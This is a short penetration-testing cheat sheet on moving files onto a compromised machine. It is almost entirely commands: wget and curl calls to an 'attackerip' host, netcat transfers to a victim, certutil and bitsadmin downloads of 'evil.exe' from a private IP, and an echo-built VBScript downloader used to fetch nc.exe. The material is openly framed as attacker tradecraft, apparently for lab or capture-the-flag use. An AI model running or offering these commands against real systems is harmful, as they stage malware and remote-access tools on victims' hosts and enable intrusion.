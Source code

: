 ## Powershell
**Caderno**
## Setup HTTP Server

	python -m SimpleHTTPServer 80
	python3 -m http.server

## Linux download command
	wget http://attackerip/file

	curl http://attackerip/file > file

## netcat
Set up your victim to listen for the incoming request

	nc -nvlp 55555 > file

Send the file

	nc $victimip 55555 < file

## SCP
Copy a file

	scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

Copy dir

	scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination


## Certutil

	certutil.exe -urlcache -split -f http://192.168.189.131:7777/evil.exe evil.exe

## Bitsadmin

	bitsadmin /transfer evil /download /priority high http://192.168.189.131:9995/evil.exe %temp%\evil.exe

## Findstr

	findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe

## VBScript
	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
	
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
	
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
	
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
	
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
	
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
	
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
	
	echo Err.Clear >> wget.vbs
	
	echo Set http = Nothing >> wget.vbs
	
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
	
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
	
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
	
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
	
	echo http.Open "GET", strURL, False >> wget.vbs
	
	echo http.Send >> wget.vbs
	
	echo varByteArray = http.ResponseBody >> wget.vbs
	
	echo Set http = Nothing >> wget.vbs
	
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
	
	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
	
	echo strData = "" >> wget.vbs
	
	echo strBuffer = "" >> wget.vbs
	
	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
	
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
	
	echo Next >> wget.vbs
	
	echo ts.Close >> wget.vbs
	
After that run this command

	cscript /nologo wget.vbs http://10.10.14.x/nc.exe nc.exe

## A few more methods

Refer this: [https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/](https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/)